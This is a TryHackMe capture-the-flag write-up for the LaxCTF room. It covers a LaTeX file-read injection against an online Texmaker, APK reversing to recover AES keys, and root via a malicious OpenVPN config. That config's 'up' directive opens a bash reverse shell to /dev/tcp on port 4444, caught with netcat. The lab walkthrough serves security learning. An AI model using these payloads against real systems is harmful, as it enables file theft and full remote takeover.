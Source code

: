 ```yaml
---
layout: post
permalink: /posts/thm/laxctf
title: "THM write-up: LaxCTF"
date: 2020-08-12 21:10
tags: tryhackme CTF recon privilege_escalate reverse_engineering lax
description: "Today we are going for a Latex style CTF write-up. This room is inspired by internetwache CTF 2016 but the author of the room, stuxnet"
---
```


![titlecard](/assets/images/THM/2020-08-12-laxctf/1.png)

[Link: https://tryhackme.com/room/laxctf](https://tryhackme.com/room/laxctf)

Greetings folks welcome to another Tryhackme walkthrough. Today we are going for a Latex style CTF write-up and this type of CTF quite unique. This room is inspired by [internetwache CTF 2016](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code) but the author of the room, stuxnet (the creator of Guatemala boo2root CTF series) modified part of the source code which makes the room more challenging. Talking about user stuxnet, I really admire him with his knowledge.  Alright, let's begin the walkthrough, shall we?

## Task 1: Capture the flags

All you have to do is capture both user and root flags. This CTF is much easier compared to the stuxCTF.

### Task 1-1: User flag

First and foremost, launch your Nmap network scanner tool with the following command.

```
nmap -Pn -A -v <Machine IP>
```

![nmap](/assets/images/THM/2020-08-12-laxctf/2.png)

As usual, we have two general open ports available on the machine. Specifically, Port 22 (SSH) and Port 80 (HTTP). Let us skip port 22 first because we are not sure about the login credential.

#### 1) Texmaker

![tex maker](/assets/images/THM/2020-08-12-laxctf/3.png)

An online Texmaker. Ahh, this reminds me of when I was doing my master research work. Latex is a good source of tool to write documents, papers, and articles. If you are a pentester or student, I highly recommend Latex on your coursework or job. Even though I'm good with latex command but this took me almost 12 hours to solve this challenge. Like I said, hacking is 1000% on critical thinking, not only good skills. A shout out for user stuxnet who hint me something on Moodle and 2009. After a quick google search, I come across the [following vulnerability](https://www.exploit-db.com/exploits/8297).

![exploit](/assets/images/THM/2020-08-12-laxctf/4.png)

We are going to read the passwd file and find out who is inside the machine. Copy the text inside the red box (without the quote) and check the log at the bottom of the screen.

![secret](/assets/images/THM/2020-08-12-laxctf/5.png)

Guess what, we found something holding a secret. For your information, the secret located at /opt/secret directory. Let's read the file by using the following latex code.

```
input{/opt/secret}
```

![files](/assets/images/THM/2020-08-12-laxctf/6.png)

A PDF file will be generated. Copy the link and check the file up.

![bound](/assets/images/THM/2020-08-12-laxctf/7.png)

Uh-oh, the text is out of bound. To read the full text, simply inspect the element.

![solve bound](/assets/images/THM/2020-08-12-laxctf/8.png)

Copy the text and save it somewhere else. For your information, this is a 128-bit AES block cipher in CBC mode. Which means, we need a secret key and perhaps a IV to decode the ciphertext. Problem is, where is the key and the VI. Time to bust the directory using the gobuster.

![gobuster](/assets/images/THM/2020-08-12-laxctf/9.png)

After a few minutes, we got a hidden directory called Google-Earth. Huh, what is inside the directory?

#### 2) APK reverse engineering

We got an apk file inside the directory.  Do not bother to install the apps on your cell phone or emulator. This not is not going to work. To check the content inside the APK, we need to use an APK reverse engineering tool, the apktool.

```
apktool d app-release.apk
```

A folder will be generated with the APK. The secret key and VI key are located at **app-release/smali/com/example/a11x256/my_activity.smali**.

![key](/assets/images/THM/2020-08-12-laxctf/10.png)

Fire up our [AES online tool](https://www.devglan.com/online-tools/aes-encryption-decryption), and input all the information (the ciphertext, secret key and IV). Make sure you select the input text as base64.

![AES decrypt](/assets/images/THM/2020-08-12-laxctf/11.png)

We got a string of brainfuck esolang. Decode the esolang using an [online tool](https://www.dcode.fr/brainfuck-language) again and we got the following base64 text.

![brainfuck](/assets/images/THM/2020-08-12-laxctf/12.png)

This is a reverse base64, how I know it? The '=' symbol is at the front of the text. Reverse the test and decode it.

![reverse base64](/assets/images/THM/2020-08-12-laxctf/13.png)

The decoded text is another base64. Keep decoding it until you get the SSH login credential.

#### 3) Capture the flag

Capturing the user flag is never been that interesting. Don't you think?

### Task 1-2: Capture root flag

Time to capture the root flag and end this challenge for good. After a short enumeration, you will notice something out of ordinary inside the crontab file.

![crontab](/assets/images/THM/2020-08-12-laxctf/14.png)

Something must be happening inside the run.sh file but we are not sure what is inside it because we do not have the permission to read it. There is one thing the box bug me out, why does the creator put a .ovpn file inside the king's folder? Something not right.

![ovpn](/assets/images/THM/2020-08-12-laxctf/15.png)

In addition, the .ovpn is empty. After a short research on [OpenVPN vulnerability](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), I stumbled across this article. I copied and paste the following text with a reverse shell into the tryhackme.ovpn file. For your information, I put the THM server as the remote, check your own [OpenVPN tunnel](https://tryhackme.com/access) file for the IP and port. I should remain this as a secret. Be sure to change the tunnel IP to capture the shell.

```
remote <THM IP:port>
dev null
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/<Tunnel IP>/4444 0<&1 2>&1&'"
```

Launch a netcat with port 4444 in your terminal before saving the file.

```
nc -lvnp 4444
```

![runnung vpn](/assets/images/THM/2020-08-12-laxctf/16.png)

Check the ps to be sure. As I suspected, the run.sh is running the OpenVPN command. Next, check out the netcat.

![root flag](/assets/images/THM/2020-08-12-laxctf/17.png)

Bingo! we are now rooted in the machine.

I'm just curios about the run.sh.

![curious](/assets/images/THM/2020-08-12-laxctf/18.png)

Yup, triple confirm.

## Conclusion

That's all for the latex style CTF. Hope you learn something today. See you next time ;)
